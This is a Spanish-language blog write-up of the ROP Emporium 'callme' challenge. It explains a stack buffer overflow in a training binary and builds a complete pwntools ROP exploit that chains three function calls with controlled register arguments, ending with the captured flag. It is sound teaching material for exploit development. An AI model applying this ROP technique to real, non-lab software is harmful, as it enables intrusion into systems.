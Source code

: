 ```yaml
---
layout: post
title: ROP emporium callme - Llamando multiples funciones 
author: c4rta
date: 2023-04-24
##categories: [Explotacion binaria]
tags: [Explotacion Binaria, ROP]
---
```

Para resolver este desafio usaremos ROP para llamar multiples funciones con multiples argumentos en el orden correcto
{:.lead}

## Analisis

![](/assets/img/callme/1.png)

No tiene canary, PIE, pero tiene NX, asi que no podemos ejecutar codigo en el stack.

Al ver la funcion main, lo unico interesante es el llamado a la funcion ```pwnme```

![](/assets/img/callme/2.png)

Una vez en esa funcion, podemos ver la vulnerabilidad:

![](/assets/img/callme/3.png)

Vemos que esta intentando escribir ```0x200``` bytes (512 en decimal) de la entrada estandar (stdin), dado un buffer, pero... Te voy a demostrar por que es vulnerable.

Cuando se hace el llamado a ```read()```, se hace con esta estructura:

```c
ssize_t read(int fd, void *buf, size_t count);
```

El primer argumento ```fd```, se le conoce como ```file decriptor```, que en palabras simples, se usa para crear una entrada para un archivo, esa entrada se identifica con un numero unico

El segundo argumento es un puntero a un buffer, y este buffer se esta creando aca:

![](/assets/img/callme/4.png)

Podemos ver que se esta inicializando un buffer de ```0x20``` bytes (32 en decimal) con el nombre de ```buf```

El tercer argumento es la cantidad de bytes que va a escribir en ese buffer, que son ```0x200```.

Entonces representando la funcion con los valores, quedaria asi:

```c
ssize_t read(0, 32, 512);
```

Esta tratando de escribir ```512``` bytes en ```32```, y como no se esta limitando la cantidad de bytes ingresados, ese buffer de ```32``` bytes va a petar, es la clasica vulnerabilidad buffer overflow, por que se esta sobrepasando la cantidad del buffer, que son 32.

Al mostrar todas las funciones en radare, tenemos que existe una funcion que se llama ```usefulFunction```:

![](/assets/img/callme/5.png)

Al mostrar el codigo de la funcion:

![](/assets/img/callme/6.png)

Nos damos cuenta que esta llamando a las funciones ```callme_three```, ```callme_two``` y ```callme_one```, y se estan llamando con los argumentos ```rdi```, ```rsi``` y ```rdx```.

Como curiosidad, si intentamos mostrar el codigo de una funcion de esas, no vamos a poder, sale algo como esto:

![](/assets/img/callme/7.png)

Y eso es por que las funciones ```callme_three```, ```callme_two``` y ```callme_one``` se encuetran en PLT que se esta cargando dinamicamente de ```libcallme.so```, entonces para poder verlas, tenemos que ejecutar el binario, me ire a gdb y pondre un breakpoint en el ```ret``` de la funcion main:

```
0x0000000000400897 <+80>:	ret
```

Y ahora si ya podemos ver su codigo, y lo mas relevante es que cuando se hace un llamado a ```callme_one```, los argumentos que se le pasan los compara con:

- 0xdeadbeefdeadbeef
- 0xcafebabecafebabe
- 0xd00df00dd00df00d

![](/assets/img/callme/8.png)

(en ```callme_three``` y ```callme_two``` es lo mismo)

Asi que ahora sabemos que debemos de llamar a ```callme_three```, ```callme_two``` y ```callme_one``` con los valores con los que se comparan los registros ```rdi```, ```rsi``` y ```rdx```

## Crafteando el exploit

Para saber el desplazamiento para llegar al RIP, podemos generar una cadena con ```pattern create 100``` y pasaresela al programa, despues podemos hacer ```pattern offset $rbp```:

![](/assets/img/callme/9.png)

Y al sumarle 8 bytes, y nos da 40

Asi va esta ahora:


```python
from pwn import *

p = process("./callme")

padding = b"A" * 40

argumento_1 = p64(0xdeadbeefdeadbeef)
argumento_2 = p64(0xcafebabecafebabe)
argumento_3 = p64(0xd00df00dd00df00d)

```

Como tenemos que escribir en rdi, rsi y rdx, debemos que buscar un gadget que nos permita hacer eso, usare ROPgadget con el comando:

```
ROPgadget --binary callme | grep 'pop rdi ; pop rsi ; pop rdx ; ret'
```

Y este nos funciona: ```0x000000000040093c : pop rdi ; pop rsi ; pop rdx ; ret```

Asi va el exploit:

```python
from pwn import *

p = process("./callme")

padding = b"A" * 40

argumento_1 = p64(0xdeadbeefdeadbeef)
argumento_2 = p64(0xcafebabecafebabe)
argumento_3 = p64(0xd00df00dd00df00d)

gadget = p64(0x000000000040093c)
```

Despues ocupamos las direcciones de callme_one y las demas, eso lo podemos hacer con el comando ```afl``` en radare:


```python
from pwn import *

p = process("./callme")

padding = b"A" * 40

argumento_1 = p64(0xdeadbeefdeadbeef)
argumento_2 = p64(0xcafebabecafebabe)
argumento_3 = p64(0xd00df00dd00df00d)

gadget = p64(0x000000000040093c)

callme_one = p64(0x00400720)
callme_two = p64(0x00400740)
callme_three = p64(0x004006f0)
```

Y por ultimo tenemos que mandar el payload en el orden correcto, primero el padding, luego el gadget, los valores de los argumentos y la funcion, asi queda el exploit completo

```python
from pwn import *

p = process("./callme")

padding = b"A" * 40

argumento_1 = p64(0xdeadbeefdeadbeef)
argumento_2 = p64(0xcafebabecafebabe)
argumento_3 = p64(0xd00df00dd00df00d)

gadget = p64(0x000000000040093c)

callme_one = p64(0x00400720)
callme_two = p64(0x00400740)
callme_three = p64(0x004006f0)

args = argumento_1 + argumento_2 + argumento_3

payload = padding + gadget + args + callme_one
payload += gadget + args + callme_two
payload += gadget + args + callme_three

p.sendline(payload)
print(p.recvall().decode())
```

Y ya tenemos la flag

```
󰣇  c4rta /tmp/callme  python3 exploit.py
[+] Starting local process './callme': pid 15024
[+] Receiving all data: Done (172B)
[*] Process './callme' stopped with exit code 0 (pid 15024)
callme by ROP Emporium
x86_64

Hope you read the instructions...

> Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}
```

Eso ha sido todo, gracias por leer ❤

![](/assets/img/callme/SUSwaifu.gif)